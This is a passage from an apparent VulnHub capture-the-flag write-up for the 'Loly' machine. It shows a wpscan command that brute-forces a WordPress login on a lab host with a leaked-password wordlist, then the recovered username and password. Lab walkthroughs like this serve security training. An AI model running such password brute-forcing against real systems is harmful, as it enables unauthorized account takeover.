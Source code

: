 Now lets look into it →

![Untitled](/Vulnhub-Files/img/Loly/Untitled%203.png)

Now with WPSCAN Tool I got username as Loly and when I bruteforced to find the password then I got this →

```bash
wpscan --url http://loly.lc/wordpress/ -U Loly -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt
```
{: .nolineno}
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Loly/Untitled%204.png)

```bash
Username: Loly
Password: fernando
```
{: .nolineno}
{: .nolineno}

